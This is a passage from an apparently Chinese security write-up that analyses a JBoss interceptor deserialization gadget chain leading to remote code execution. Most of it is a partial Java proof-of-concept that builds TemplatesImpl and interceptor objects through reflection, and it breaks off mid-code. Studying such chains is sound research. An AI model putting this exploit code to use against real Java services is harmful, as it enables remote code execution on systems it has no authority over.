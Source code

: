 而实际上SimpleInterceptionChain  
这个类也没有实现Serializable  
接口, 并且调用它的invokeNextInterceptor  
方法可以调用到InterceptorInvocation$InterceptorMethodInvocation::invoke  
危险方法中去, 只要能够调用到invokeNextInterceptor  
并且不报错, 实际上就可以完成一次RCE, 当然如果想要调用不报错, 也要分析一下SimpleInterceptionChain  
这个类的构造器:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsT7CfRRuSDcickVtY4WDMKT6ibkrkQiaAvMrFVFjfZek1mzuuClyxwD8Gw/640?wx_fmt=png&from=appmsg "")  
  
这些属性之间的关系比较麻烦, 就不在文章中说明了, 可以编写如下 POC:  
```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.InterceptorInvocation;
import org.jboss.interceptor.proxy.InterceptorInvocationContext;
import org.jboss.interceptor.proxy.SimpleInterceptionChain;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionType;
import sun.misc.Unsafe;

import javax.interceptor.InvocationContext;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class POC {
    public static void main(String[] args) throws Throwable {
        // 准备 TemplatesImpl
        TemplatesImpl templatesImpl = getTemplatesImpl();
        // 准备 MethodMetadata
        HashSet<Object> hsSet = new HashSet<>();
        hsSet.add(InterceptionType.POST_ACTIVATE);
        Constructor<DefaultMethodMetadata> defaultMethodMetadataConstructor = DefaultMethodMetadata.class.getDeclaredConstructor(Set.class, MethodReference.class);
        defaultMethodMetadataConstructor.setAccessible(true);
        Method newTransformer = TemplatesImpl.class.getMethod("newTransformer");
        MethodMetadata defaultMethodMetadata = (MethodMetadata) defaultMethodMetadataConstructor.newInstance(hsSet,
                MethodReference.of(newTransformer, true));
        // 准备 InterceptorInvocation$InterceptorMethodInvocation
        Class<?> interceptorMethodInvocationClazz = Class.forName("org.jboss.interceptor.proxy.InterceptorInvocation$InterceptorMethodInvocation");
        Constructor<?> interceptorMethodInvocationDeclaredConstructor = interceptorMethodInvocationClazz.getDeclaredConstructor(InterceptorInvocation.class, Object.class, MethodMetadata.class);
        interceptorMethodInvocationDeclaredConstructor.setAccessible(true);
        // InterceptorInvocation interceptorInvocationObj = (InterceptorInvocation) getObjectByUnsafe(InterceptorInvocation.class);
        InterceptorInvocation interceptorInvocationObj = new InterceptorInvocation(templatesImpl, new SimpleInterceptorMetadata(null, false,  new HashMap<>()), InterceptionType.POST_ACTIVATE);
        org.jboss.interceptor.proxy.InterceptorInvocation.InterceptorMethodInvocation interceptorMethodInvocation = (org.jboss.interceptor.proxy.InterceptorInvocation.InterceptorMethodInvocation) interceptorMethodInvocationDeclaredConstructor.newInstance(interceptorInvocationObj, templatesImpl, defaultMethodMetadata);
        //        // 主动调用 invoke 方法
//        Method invokeMethod = o.getClass().getDeclaredMethod("invoke", InvocationContext.class);
//        invokeMethod.setAccessible(true);
```